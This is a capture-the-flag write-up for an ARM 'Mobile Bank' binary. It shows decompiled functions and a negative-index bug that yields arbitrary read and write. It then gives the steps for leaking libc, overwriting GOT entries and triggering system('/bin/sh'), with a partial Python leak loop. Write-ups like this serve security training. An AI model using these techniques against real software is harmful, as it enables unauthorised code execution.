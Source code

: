# Mobile Bank

In this task we are given single binary and tcp server to connect to.

## Solution

![checksec.png](checksec.png)

Since its arm binary, I will use qemu to run it, looks like that:

![menu.png](menu.png)

Lets now explore all those functions in IDA(I added names, binary is stripped). There is also one hidden option, but it turned out it wasn't needed.

```c
int __fastcall sub_11284(int a1, int a2)
{
  int v2; // r0
  int v3; // r1

  setup();
  print_ascii_art();
  while ( 1 )
  {
    print_menu();
    v2 = get_int();
    switch ( v2 )
    {
      case 0:
        puts("Bye!");
        cleanup();
        return 0;
      case 1:
        print_info(v2, v3);
        break;
      case 2:
        set_acc_id();
        break;
      case 3:
        set_acc_note();
        break;
      case 4:
        make_transaction();
        break;
      case 5:
        print_account_info();
        break;
      case 6:
        enable_debug(v2, v3);
        break;
      case 7:
        if ( debug )
          debug_function(v2, v3);
        else
          puts("Invalid command!");
        break;
      default:
        puts("Invalid command!");
        break;
    }
  }
}
```

Function `get_int` reads from `stdin` and uses `atoi` to convert input to int. Looking at function `set_acc_id` we can see that is checks upper bound(`result > 15`), but its signed comparison and it doesn't check if input is lower than 0.

```c
signed int set_acc_id()
{
  signed int result; // r0

  printf("Enter account id: ");
  result = get_int();
  if ( result > 15 )
    return puts("Wrong account id!");
  acc_id = result;
  return result;
}
```

Exploring more, You can notice there is global array of (int, pointer) pairs. Let's look at `set_acc_note`, `make_transaction` and `print_account_info` functions.
```c
char *set_acc_note()
{
  char *dest; // ST08_4
  char *result; // r0
  size_t v2; // [sp+4h] [bp-110h]
  char src; // [sp+Ch] [bp-108h]

  printf("Enter account note: ");
  v2 = read_from_stdin(&src, 256);
  if ( global_arr[2 * acc_id + 1] )
  {
    free(global_arr[2 * acc_id + 1]);
    global_arr[2 * acc_id + 1] = 0;
  }
  dest = (char *)malloc(v2 + 1);
  result = strcpy(dest, &src);
  global_arr[2 * acc_id + 1] = dest;
  return result;
}
```

```c
int make_transaction()
{
  int result; // r0

  printf("Enter transaction value: ");
  result = get_int();
  global_arr[2 * acc_id] = (char *)global_arr[2 * acc_id] + result;
  return result;
}
```

```c
int print_account_info()
{
  void *v0; // r3
  char s; // [sp+Ch] [bp-158h]

  if ( global_arr[2 * acc_id + 1] )
    v0 = global_arr[2 * acc_id + 1];
  else
    v0 = &unk_1196C;
  snprintf(&s, 0x150u, "id: %u, value: %d$, note:\"%s\"", acc_id, global_arr[2 * acc_id], v0);
  return puts(&s);
}
```

Note that since  `acc_id` can be < 0, we have (almost) arbitrary write using `make_transaction` function, we can write only to adresses divisible by 8. Also using `print_account_info` we have arbitrary read, limited to adresses divisible by 8, but also only when `%s` doesn't trigger `SIGSEGV`.  If challenge authors provided us libc used on the server, we could exploit leaking libc base address and overriting some GOT entry with `system` address, and then calling `system("/bin/sh")`, so the only thing we need is `system` offset. I tried to leak libc functions adresses and then look at some libc database, but I couldn't find anything, also I tried to look at my libc offsets and subtract then from leaked addresses, but it doesn't look right:
```
malloc: 0xb6d39fb8
strcpy: 0xb6d39b20
```
We have to notice that offsets don't change that much between versions, result is approximately correct, so probably libc base is `0xb6d39000`. To verify that, we need real arbitrary read primitive, to get that, we can:
1. Overrite `malloc` GOT entry to `get_int` address.
2. Overrite `strcpy` GOT entry to some NOP function to prevent `SIGSEGV` in `set_acc_note`(we can also use next intruction after `strcpy` call).

Now we fully control the pointer which is used with `%s` format is `print_account_info`. Lets use that to look at first few bytes of guessed libc base:
![elf.png](elf.png)
It's ELF header, so my hypothesis was correct. Now the plan is following:

1. Find `system` offset in my local libc.
2. Leak some memory starting somewhere near libc_base + system_offset.
3. Find `system` addres by it's signature.

Saddenly, out leaking function is `snprintf`, which stops on null byte, which means we will have to write a script and leak those bytes in a loop.

```python
guess_system_addr = libc_base_guess + SYSTEM_OFFSET

res = read('out2')
cnt =  len(res)
set_acc_id(2)

for i in  range(10000):
print i
set_acc_note('asdf', ctypes.c_int(guess_system_addr + cnt).value)
_, note = print_acc_info()
note +=  '\x00'
cnt +=  len(note)
res += note
if i %  10  ==  0:
	with  open('out2', 'wb') as f:
	f.write(res)
```

I loaded my local libc version in IDA and checked first 2 bytes of `system`.  After few minutes of leaking, I checked if they are present in leaked memory, and yes they are.
```
In [23]: leaked_mem.find('\x00\xb1')                               
Out[23]: 1412
```
it could be false positive since 3rd byte wasnt correct, but I manually checked few other bytes and they seemed correct. Now, I overwritten memcmp GOT entry to the `system` adress, and using this code in `enable_debug` function
```c
...
printf("Enter password: ");
read(0, &buf, 0x10u);
if ( !memcmp(&buf, &unk_22108, 0x10u) )
...
```

triggered `system("/bin/sh")`.

This solution was probably unintended, since I've never used hidden `debug_function`(we could easily enable it by writing something else than 0 to the `debug` variable), which was vulnerable to buffer overflow.

```c
int debug_function()
{
  size_t n; // ST14_4
  char *v1; // r3
  char *v3; // [sp+Ch] [bp-218h]
  char *v4; // [sp+Ch] [bp-218h]
  signed int i; // [sp+10h] [bp-214h]
  char *v6; // [sp+18h] [bp-20Ch]
  char s; // [sp+1Ch] [bp-208h]
  int v8; // [sp+21Ch] [bp-8h]

  memset(&s, 0, 0x200u);
  v3 = &s;
  for ( i = 0; i <= 15; ++i )
  {
    v4 = &v3[snprintf(v3, (char *)&v8 - v3, "%u\t%d$\t", i, global_arr[2 * i])];
    v6 = (char *)global_arr[2 * i + 1];
    if ( v6 )
    {
      n = strlen(v6);
      memcpy(v4, v6, n);
      v4 += n;
    }
    v1 = v4;
    v3 = v4 + 1;
    *v1 = 10;
  }
  puts("*******************$$$Debug$$$******************");
  printf("%s", &s);
  return puts("************************************************");
}
```
I didn't want to use that since there is stack canary, I'm not familiar with arm assembly, and jumping to `system` just seemed easier.
I also believe you could somehow find that libc version, in some database, but it was pretty fun to leak it and find offset myself.



